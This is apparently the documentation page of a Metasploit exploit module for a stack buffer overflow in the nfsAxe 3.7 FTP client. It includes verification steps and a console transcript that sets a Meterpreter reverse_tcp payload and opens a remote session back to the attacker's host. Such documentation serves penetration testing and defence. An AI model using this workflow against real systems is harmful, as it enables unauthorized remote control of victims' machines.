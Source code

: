 # LabF nfsAxe FTP Client 3.7 Stack Buffer Overflow

## Introduction

nfsAxe is NFS client an NFS server for Windows, which also includes an FTP client, Telnet, LPD & LPR and TFTP.

## Vulnerable Application

The vulnerable copy can be [downloaded from Exploit-DB](https://www.exploit-db.com/apps/81575f3c81f28a239e881f68e5ea82b1-nfsaxe.exe). Tested on Windows 7 Enterprise SP1.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: `use exploit/windows/ftp/labf_nfsaxe`
4. Set options and payload
5. Do: `exploit`
6. Connect to the FTP server using the FTP client
7. You should get a session

## Scenarios

```
msf > use exploit/windows/ftp/labf_nfsax 
msf exploit(windows/ftp/labf_nfsax) > set SRVHOST 192.168.216.3
SRVHOST => 192.168.216.3
msf exploit(windows/ftp/labf_nfsax) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/ftp/labf_nfsax) > set LHOST 192.168.216.3
LHOST => 192.168.216.3
msf exploit(windows/ftp/labf_nfsax) > run
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.216.3:4444 
[*] Server started.
msf exploit(windows/ftp/labf_nfsax) > [*] Sending stage (179779 bytes) to 192.168.216.90
[*] Meterpreter session 1 opened (192.168.216.3:4444 -> 192.168.216.90:49161) at 2018-01-04 14:46:26 +0000
```

## References

https://www.exploit-db.com/exploits/43236/
